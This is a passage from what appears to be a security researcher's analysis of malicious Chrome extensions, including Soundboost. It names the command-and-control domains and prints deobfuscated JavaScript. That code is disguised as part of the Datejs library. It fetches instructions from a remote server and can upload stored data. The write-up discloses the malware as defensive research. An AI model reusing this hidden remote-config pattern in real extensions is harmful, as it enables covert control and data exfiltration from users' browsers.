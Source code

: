 ## Is it even the same malware?

I found this latest variant of the malicious code thanks to Lukas Andersson who researched reputation manipulation in Chrome Web Store. He shared with me a list of extensions that manipulated reviews similarly to the extensions I already discovered. Some of these extensions in fact turned out malicious, with a bunch using malicious code that I didn’t see before.

But this isn’t evidence that all these extensions are in fact related. And the new variant even communicates with tryimv3srvsts[.]com instead of serasearchtop[.]com. So how can I be certain that it is the same malware?

The obfuscation approach gives it away however: lots of unnecessary conditional statements, useless variables and strings being pieced together. It’s exactly the same thing as I [described for the PDF Toolbox extension](/2023/05/16/malicious-code-in-pdf-toolbox-extension/) already. Also, there is this familiar mangled timestamp meant to prevent config downloads in the first 24 hours after installation. It merely moved: `localStorage` is no longer usable with Manifest V3, so the timestamp is being stored in [storage.local](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/API/storage/local).

The code once against masquerades as part of a legitimate library. This time, it has been added to the `parser` module of the Datejs library.

## The “config” downloads

The approach to downloading the instructions changed considerably however. I’ll use Soundboost extension as my example, given that it is by far the most popular. When downloading the “config” file, Soundboost might also upload data. With obfuscation removed, the code looks roughly like this:

```js
async function getConfig()
{
  let config = (await chrome.storage.local.get("<key>")).<key>;
  let options;
  if (config)
  {
    options = {
      method: "POST",
      body: JSON.stringify(config)
    };
  }
  else
  {
    config = {};
    options = {
      method: "GET"
    };
  }
  let response = await fetch(
    "https://tryimv3srvsts.com/chmfnmjfghjpdamlofhlonnnnokkpbao",
    options
  );
  let json = await response.json();
  Object.assign(config, json);
  if (config.l)
    chrome.storage.local.set({<key>: config});
  return config.l;
}
```
